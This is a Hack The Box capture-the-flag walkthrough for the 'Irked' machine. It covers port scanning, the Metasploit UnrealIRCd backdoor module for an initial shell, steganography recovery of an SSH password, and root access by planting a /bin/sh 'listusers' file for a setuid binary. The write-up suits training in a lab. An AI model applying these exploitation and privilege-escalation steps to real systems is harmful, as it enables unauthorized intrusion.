 ```yaml
---
title:     "Hack The Box - Irked"
tags: [linux,easy,steg]
categories: HackTheBox
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-irked/1.png)

We are going to pwn Irked from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/163>


Like always begin with our Nmap Scan.

## Nmap Scan Results

```bash
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
60236/tcp open  unknown
65534/tcp open  unknown


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          39016/udp6  status
|   100024  1          45688/udp   status
|   100024  1          52691/tcp6  status
|_  100024  1          60236/tcp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
60236/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Start from HTTP port 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-irked/2.png)<br/>
This image looks suspecious , lets try Gobuster

## Gobuster Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.117
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/10 23:56:59 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/manual (Status: 301)
/server-status (Status: 403)
===============================================================
2019/12/10 23:59:11 Finished
===============================================================
```

Nothing useful. Check other ports.
We know ``UnrealIRCD`` running, search them in searchsploit for any exploits
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-irked/3.png)

I choose randomly and started with ``metasploit`` one

>https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor

>use exploit/unix/irc/unreal_ircd_3281_backdoor

## Getting Shell

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-irked/4.png)<br/>
Set RHOST and LHOST

I got the shell as ``ircd``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-irked/5.png)<br/>
While checking the home directory I found an user ``djmardov`` and got ``.backup`` file. 
It says ``steg`` maybe it is ``Stegnanography``

## Getting User Djmardov

We already saw an image in webpage , download it
I tried with [steghide](https://github.com/StefanoDeVuono/steghide)

>steghide - a steganography program

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-irked/6.png)

It has a file called ``pass.txt``which is password protected and we got the pass already from ``.backup``

I got a password

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-irked/7.png)

```
extract, --extract      extract data
-xf, --extractfile      select file name for extracted data
```

So I tried with them in ``ssh`` - ``djmardov:Kab6h+m+bbp2J:HG``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-irked/8.png)


## Privilege Escalation

There is an setuid binary ``viewuser``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-irked/9.png)

While executing it search for a file called ``listusers`` in ``/tmp``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-irked/10.png)

Which is not found so we create one and make that gives us shell.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-irked/11.png)

I created one and tried executed the file ``viewuser`` it says permission denied for ``listusers``, I forgot to give permission and then it worked.
> echo “/bin/sh” > listusers

I got Root~



